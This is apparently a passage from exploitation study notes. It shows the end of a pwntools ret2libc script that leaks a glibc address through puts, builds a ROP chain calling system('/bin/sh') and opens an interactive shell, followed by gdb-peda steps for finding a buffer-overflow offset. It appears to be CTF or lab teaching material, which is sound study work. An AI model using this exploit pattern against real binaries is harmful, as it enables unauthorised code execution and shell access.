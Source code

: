 ```python
    payload  = b'B' * 8 * 5
    payload += p64(pop_rdi_ret)
    payload += p64(setvbuf_got_addr)
    payload += p64(puts_plt_addr)
    payload += p64(stack_pivot)

    glibc_addr = setvbuf_addr - setvbuf_offset
    log.success(f'Glibc base address: {hex(glibc_addr)}')

    system_addr = glibc_addr + system_offset
    bin_sh_addr = glibc_addr + bin_sh_offset

    payload  = b'A' * 8 * 5
    payload += p64(pop_rdi_ret)
    payload += p64(bin_sh_addr)
    payload += p64(pop_rdi_ret + 1)
    payload += p64(system_addr)
    payload += p64(stack_pivot)

    p.sendafter(b'Enter details: ', payload)
    p.interactive()


if __name__ == '__main__':
    main()
```

#### Exploiting BOF without ASLR and binary protections.

**With gdb+peda**

\#Start the binary with gdb

```
Gdb -q ./[name]
```

\#Viewing the main code

```
Gdb-peda$:pdisass main
```

\#Generating a pattern

```
Gdb-peda$:Pattern_create 500
```

\#Running the pattern against the binary

```
Gdb-peda$:run ‘pattern’
```

**OR you can generate the pattern with python if you don't have \[peda]**

